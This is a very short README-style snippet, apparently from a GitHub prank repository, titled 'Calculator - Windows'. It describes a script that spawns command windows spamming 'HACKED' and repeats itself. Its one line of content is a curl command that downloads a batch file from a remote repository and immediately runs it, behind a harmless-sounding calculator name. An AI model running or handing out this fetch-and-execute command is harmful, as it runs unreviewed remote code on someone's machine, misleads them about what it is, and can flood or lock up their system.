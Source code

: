 # Calculator - Windows
### Spawns cmd lines spamming HACKED in green and repeating the process.
``curl -o script.bat https://raw.githubusercontent.com/PhasedGapple/TrollCURL/refs/heads/main/calculator | script.bat``
